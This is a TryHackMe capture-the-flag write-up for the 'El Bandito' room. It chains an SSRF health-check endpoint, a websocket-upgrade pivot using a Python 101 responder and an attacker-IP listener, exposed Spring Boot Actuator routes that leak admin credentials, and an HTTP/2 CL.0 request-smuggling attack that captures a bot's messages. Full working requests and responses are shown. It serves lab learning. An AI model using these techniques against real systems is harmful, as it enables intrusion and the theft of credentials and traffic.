


## Overview

**El Bandito** ([TryHackMe](https://tryhackme.com/room/elbandito)) is a "Bandit-Coin" crypto site sitting on three separate web surfaces. An SSRF in a health-check endpoint gets pointed at the app's own backend, and a websocket-upgrade quirk in that same endpoint turns the SSRF into a direct pivot onto the Spring Boot service behind it — Actuator's `/mappings` hands over the whole route table, including two admin-only endpoints, and one of them leaks credentials for flag one. Flag two is a completely different bug on a separate vhost: an HTTP/2-to-1.1 downgrade that lets us smuggle a request onto the backend connection and have it get spliced into the next thing the site's bot sends.

---

## Enumeration

`nmap -sV 10.112.172.188`

```text
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
80/tcp   open  ssl/http El Bandito Server
631/tcp  open  ipp      CUPS 2.4
8080/tcp open  http     nginx
```

Four ports, three worth looking at. 80 is flagged `ssl/http` — plain `curl` against it resets the connection, so it wants TLS. 8080 answers over plain HTTP behind nginx.

8080 is the Bandit-Coin marketing site:


`services.html` on the same host has a status page for the "ecosystem":



Watching that page load in Burp, the two status lines are backed by real requests:

```text
GET /isOnline?url=http://bandito.public.thm HTTP/1.1
→ 200

GET /isOnline?url=http://bandito.websocket.thm HTTP/1.1
→ 500
```

So `/isOnline` takes an arbitrary `url` parameter and the server goes and checks it — a health-check endpoint with attacker-controlled destination is basically an SSRF invitation. `bandito.websocket.thm` failing is also a hint that there's a websocket-flavored backend somewhere behind this, which lines up with `burn.html`:


That page opens a real websocket to `/ws` to do the "burn tokens" animation — confirms the backend speaks websocket natively, which becomes relevant later.

---

## SSRF confirmation and internal recon

Pointing `/isOnline` at `localhost` instead of a `.thm` vhost:

```text
GET /isOnline?url=http://localhost HTTP/1.1
Host: 10.112.172.188:8080
Referer: http://10.112.172.188:8080/services.html
```

```json
HTTP/1.1 500
X-Application-Context: application:8081
Content-Length: 187

{"timestamp":1785069465375,"status":500,"error":"Internal Server Error",
 "exception":"java.net.ConnectException",
 "message":"Failed to connect to localhost/127.0.0.1:80","path":"/isOnline"}
```

`X-Application-Context: application:8081` is the giveaway — this Spring Boot app is telling us its own internal port for free. Confirmed the SSRF by aiming directly at it:

```text
GET /isOnline?url=http://localhost:8081 HTTP/1.1
```

No connection error this time — 8081 is alive locally. Since `/isOnline` will happily probe anything reachable from the server, I used it to port-scan the loopback interface itself:

```text
[20:28:53] IP:127.0.0.1, Found open     port n°2049
[20:28:53] IP:127.0.0.1, Found filtered port n°8081
[20:28:53] IP:127.0.0.1, Found open     port n°646
[20:28:53] IP:127.0.0.1, Found open     port n°5666
[20:28:53] IP:127.0.0.1, Found open     port n°49153
[20:28:53] IP:127.0.0.1, Found open     port n°5000
[20:28:53] IP:127.0.0.1, Found open     port n°1110
[20:28:53] IP:127.0.0.1, Found open     port n°88
```

8081 shows up as "filtered" here even though the earlier probe reached it fine — inconsistent enough that I didn't chase it further and just kept treating 8081 as the real target.

With the backend port known, I fuzzed it through the SSRF for Spring-specific routes, using a purpose-built Spring Boot wordlist instead of a generic one:

```bash
ffuf -u 'http://10.112.144.196:8080/isOnline?url=http://localhost:8081/FUZZ' \
  -w ~/Documents/THM/elbandito/wordlist.txt
```

(wordlist: [spring-boot.txt](https://github.com/emadshanab/DIR-WORDLISTS/blob/main/spring-boot.txt))

```text
metrics      [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 290ms]
info         [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 288ms]
mappings     [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 288ms]
trace        [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 290ms]
beans        [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 290ms]
env          [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 734ms]
dump         [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 744ms]
health       [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 749ms]
autoconfig   [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 802ms]
configprops  [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 813ms]
heapdump     [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 833ms]
```

Every Actuator endpoint 200s, but the body always comes back empty — `/isOnline` only ever reports the up/down status of the URL it hit, it never actually returns the response body to us. Useful for confirming the routes exist, useless for reading what's on them. I needed a way to get the actual response content back, not just a status code.

> Old-style Spring Boot Actuator endpoints (`/env`, `/dump`, `/heapdump`, `/configprops`, no `/actuator/` prefix) with zero auth is already a red flag on its own — this version predates Actuator's security-by-default changes.
{: .prompt-info }

---

## Foothold — websocket-upgrade pivot into the backend

Reachable-but-blind isn't good enough, so I went back to the one clue still unused: the `bandito.websocket.thm` vhost that 500'd on the services page, and `burn.html`'s real `/ws` connection. If this backend has websocket handling wired into the same code path as `/isOnline`, maybe a websocket-upgrade request *to* `/isOnline` behaves differently than a plain GET.

I stood up a tiny listener that answers any request with an immediate `101 Switching Protocols` and nothing else:

```python
import sys
from http.server import HTTPServer, BaseHTTPRequestHandler

class Redirect(BaseHTTPRequestHandler):
    def do_GET(self):
        self.protocol_version = "HTTP/1.1"
        self.send_response(101)
        self.end_headers()

HTTPServer(("", int(sys.argv[1])), Redirect).serve_forever()
```

Then sent `/isOnline` a websocket upgrade request pointed at that listener, with a second, raw HTTP request stacked right after the upgrade headers in the same TCP write:

```http
GET /isOnline?url=http://<ATTACKER_IP>:5555 HTTP/1.1
Host: 10.112.144.196:8080
Sec-WebSocket-Version: 13
Origin: http://10.112.144.196:8080
Sec-WebSocket-Key: 2xCMCeU2mXmB9YFhkE04kg==
Connection: Upgrade
Upgrade: websocket

GET /token HTTP/1.1
Host: 10.112.144.196:8081

```

```http
HTTP/1.1 101
Server: nginx
X-Application-Context: application:8081

HTTP/1.1 200
X-Application-Context: application:8081
Content-Type: text/plain
Content-Length: 8

3239.715
```

Two responses on one connection. The first `101` is the app confirming the websocket upgrade against my listener out on `:5555`; the second is a full `200` carrying `3239.715` — the actual output of `GET /token`, an endpoint that lives on 8081, not 8080. My best read of what's happening: the moment the outbound SSRF probe gets back a `101`, whatever's proxying `/isOnline` treats the *inbound* connection as upgraded too, and starts passing subsequent bytes straight through to the real backend listener on 8081 instead of parsing them as more of the `/isOnline` request. I didn't dig further into the actual proxy internals to prove that — it worked, so I kept going.

Swapped `/token` for `/mappings` to get the full route table:

```http
GET /isOnline?url=http://<ATTACKER_IP>:5555 HTTP/1.1
...
Upgrade: websocket

GET /mappings HTTP/1.1
Host: 10.112.144.196:8081

```

```json
{"...":"...",
 "{[/admin-creds],methods=[GET]}":{"bean":"requestMappingHandlerMapping",
   "method":"...AdminController.adminCreds()"},
 "{[/admin-flag],methods=[GET]}":{"bean":"requestMappingHandlerMapping",
   "method":"...AdminController.adminFlag()"},
 "{[/token]}":{"...":"...AdminController.getBootTimeWithRandom()"},
 "{[/isOnline]}":{"...":"...AppHealthController.health(java.lang.String)"},
 "...":"..."}
```

`AdminController` exposing `/admin-creds` and `/admin-flag` with no auth check anywhere in the mapping — same pivot, just change the smuggled request line:

```http
GET /admin-creds HTTP/1.1
Host: 10.112.144.196:8081
```

```text
username: hAckLIEN
password: <ADMIN_PASSWORD>
```

And the same trick against `/admin-flag`:

> **Flag 1** (`/admin-flag` via Actuator route disclosure + websocket-upgrade pivot): `THM{...}`
{: .prompt-info }

---

## Privilege escalation — HTTP/2 downgrade smuggling on port 80

Port 80 is the piece that never responded to plain HTTP earlier — it wants TLS:

```text
https://10.112.144.196:80/
```

The page is empty apart from one script tag:

```html
<script src='/static/messages.js'></script>
```

`messages.js` describes a small internal chat app:

```js
function fetchMessages() {
    fetch("/getMessages")
        .then((response) => response.json())
        .then((messages) => {
            userMessages = messages;
            userMessages.JACK === undefined
                ? (userMessages = { OLIVER: messages.OLIVER, JACK: [] })
                : userMessages.OLIVER === undefined &&
                    (userMessages = { JACK: messages.JACK, OLIVER: [] });
            displayMessages("JACK");
        });
}
```

and further down, a `sendMessage` path builds a payload with a `sender` field that's either the logged-in user or literally `"Bot"`:

```js
const messageData = {
    message: messageText,
    sender: isBot ? "Bot" : activeUser,
};
```

`hAckLIEN` / `<ADMIN_PASSWORD>` from `/admin-creds` turns out to be a login for this site — there's a login form here separate from anything on 8080, and those credentials get us a session:


Two things stand out once logged in: everything here is HTTP/2, and there's clearly a bot posting messages on its own schedule (the `"Bot"` sender in `messageData`, and the conversation content itself — quantum sniffers, blockchain, portals, the usual roleplay filler that's really just there to prove something is generating traffic on a timer).

Responses carry `Age: 0`, which means there's a caching/reverse-proxy layer in front of the real backend again — same shape as 8080, just a different app behind it. Whenever there's a proxy translating HTTP/2 on the front to HTTP/1.1 on the back, request smuggling is worth a look, so I started poking at how the frontend forwards headers. Adding `Connection: keep-alive` to an HTTP/2 request (technically forbidden — connection-specific headers don't exist in h2) got silently stripped and the request went through fine regardless, meaning the frontend sanitizes it before forwarding rather than rejecting the request outright. Not exploitable on its own, but it confirms there's a translation step in the middle worth attacking.

Since `messages.js` names `POST /send_message` as the real save endpoint and we know a bot is generating its own traffic on some interval, the plan was: force the frontend to downgrade our single HTTP/2 request into two HTTP/1.1 requests on the backend connection, by lying about `Content-Length` on the first one so the backend keeps reading past where the frontend thought the request ended:

```http
POST /messages HTTP/2
Host: 10.112.129.187:80
Cookie: session=eyJ1c2VybmFtZSI6ImhBY2tMSUVOIn0.amaJIQ.<REDACTED>
Content-Length: 0

POST /send_message HTTP/1.1
Host: 10.112.129.187:80
Content-Type: application/x-www-form-urlencoded
Cookie: session=eyJ1c2VybmFtZSI6ImhBY2tMSUVOIn0.amaJIQ.<REDACTED>
Content-Length: 730

data=
```

`Content-Length: 0` on the outer HTTP/2 request tells the frontend there's no body, so it forwards a "complete" request downstream over the backend's HTTP/1.1 connection — except the bytes I actually sent don't stop there. The `POST /send_message` sitting right after gets left behind on that backend connection, queued and waiting, with `Content-Length: 730` telling the backend to keep expecting more body for `data=` than I actually supplied. If that backend connection is reused for someone else's request — the bot's, in this case — whatever the bot sends next gets read as the rest of my `data=` body instead of as its own request.

Fired it several times to win the race against the bot's own posting interval, and eventually got a live one through:

```http
HTTP/2 200 OK
Content-Type: application/json
Content-Length: 54
Content-Security-Policy: default-src 'self'; script-src 'self'; object-src 'none';
Age: 0
Server: El Bandito Server

{"status":"Message received and stored successfully"}
```

Checked the chat in the browser afterward and the smuggled request had picked up whatever the bot sent next, stored as a message:



> **Flag 2** (HTTP/2 downgrade smuggling against `/send_message`, captured from the bot's traffic): `THM{...}`
{: .prompt-info }

> This is a CL.0-style desync — an HTTP/2 request with `Content-Length: 0` but a body attached anyway, relying on the frontend trusting the declared length instead of what actually got framed. Repeat sends until you land on a connection the victim traffic reuses; it's a race, not a one-shot.
{: .prompt-tip }

---

## Conclusion

Two unrelated bugs on two unrelated vhosts, chained only by which credentials unlock which app:

1. **Unauthenticated SSRF in `/isOnline`** — the health-check endpoint fetches whatever URL it's given, including `localhost`, and leaks the backend's port via `X-Application-Context`.
2. **Exposed legacy Spring Boot Actuator** — once the backend port is known, `/mappings`, `/env`, `/heapdump` and friends are all reachable with no auth, though the SSRF only reports status, not body content.
3. **Websocket-upgrade proxy quirk turns blind SSRF into a live pivot** — faking a `101` from an attacker-controlled listener gets a smuggled raw HTTP request bridged straight onto the backend's real 8081 listener, bypassing whatever access control sits in front of it. `/mappings` reveals two unauthenticated `AdminController` routes, and `/admin-creds` / `/admin-flag` hand over credentials and flag one directly.
4. **HTTP/2-to-1.1 downgrade smuggling** — a lied-about `Content-Length` on an h2 request gets a second, incomplete request queued on the shared backend connection, which then swallows the next client's (the bot's) traffic as its own body — netting flag two.

### Tools used

| Stage | Tools |
|-------|-------|
| Recon | `nmap`, browser dev tools |
| SSRF discovery & tunneling | Burp Suite (Repeater), custom Python `101`-responder |
| Backend route discovery | `ffuf` + [spring-boot.txt](https://github.com/emadshanab/DIR-WORDLISTS/blob/main/spring-boot.txt) |
| HTTP/2 smuggling | Burp Suite (Repeater, HTTP/2 support) |
